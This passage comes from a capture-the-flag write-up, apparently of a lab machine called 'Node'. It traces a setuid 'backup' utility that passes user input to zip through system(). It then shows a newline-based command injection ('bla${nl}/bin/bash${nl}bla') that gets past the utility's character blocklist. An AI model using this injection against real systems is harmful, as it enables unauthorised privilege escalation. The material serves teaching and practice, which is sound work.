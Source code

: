 ```bash
time(0) = 1620960561
clock(0, 0, 0, 0) = 1451
srand(0x3d49f686, 0x41a2fac9, 0x3d49f686, 0x804918c) = 0
rand(0, 0, 0, 0) = 0x75831a8f
sprintf("/tmp/.backup_1971526287", "/tmp/.backup_%i", 1971526287) = 23
sprintf("/usr/bin/zip -r -P magicword /tmp/.backup_1971526287 /tmp/foo/ > /dev/null", "/usr/bin/zip -r -P magicword %s %s > /dev/null", "/tmp/.backup_1971526287", "/tmp/foo/") = 74
system("/usr/bin/zip -r -P magicword /tmp/.backup_1971526287 /tmp/foo/ > /dev/null" <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
access("/tmp/.backup_1971526287", 0) = 0
sprintf("/usr/bin/base64 -w0 /tmp/.backup_1971526287", "/usr/bin/base64 -w0 %s", "/tmp/.backup_1971526287") = 43
system("/usr/bin/base64 -w0 /tmp/.backup_1971526287"UEsDBAoAAAAAAE0arlIAAAAAAAAAAAAAAAAIABwAdG1wL2Zvby9VVAkAA/LdnWD63Z1gdXgLAAEE6AMAAAToAwAAUEsDBAoACQAAAE0arlIAAAAADAAAAAAAAAAQABwAdG1wL2Zvby90ZXN0LnR4dFVUCQAD8t2dYP3dnWB1eAsAAQToAwAABOgDAAD6ZujGoISHa4M+cSpQSwcIAAAAAAwAAAAAAAAAUEsBAh4DCgAAAAAATRquUgAAAAAAAAAAAAAAAAgAGAAAAAAAAAAQAO1BAAAAAHRtcC9mb28vVVQFAAPy3Z1gdXgLAAEE6AMAAAToAwAAUEsBAh4DCgAJAAAATRquUgAAAAAMAAAAAAAAABAAGAAAAAAAAAAAAKSBQgAAAHRtcC9mb28vdGVzdC50eHRVVAUAA/LdnWB1eAsAAQToAwAABOgDAABQSwUGAAAAAAIAAgCkAAAAqAAAAAAA <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> ) = 0
remove("/tmp/.backup_1971526287") = 0
fclose(0x9ec4008) = 0
+++ exited (status 0) +++
```

It seems like the app is doing some sort of blocklist checking with the `strchr` statements. It's specifically looking for "/etc","/root","..", and some other special characters. We can also see that the utility uses a `system` call to use the `zip` utility with the name of the parameter that we pass in. This means that might be able to get some form of command injection. The blocklist includes most of the special shell control characters (like `;`), which means this bypass is going to have to be creative. Fortunately for us, newline characters are *not* included in a blocklist, so we can use that to separate the zip command into multiple commands. To actually input newlines into the program we can use environment variables. First we declare a shell variable that equals the special `\n` character.

```bash
tom@node:/tmp$ nl=$'\n'
```

Then we use our special newline variable when passing in the arguments to the `backup` utility.

```bash
tom@node:/tmp$ backup test 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "bla${nl}/bin/bash${nl}bla"



             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |             Secure Backup v1.0              |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |_____________________________________________|    |
```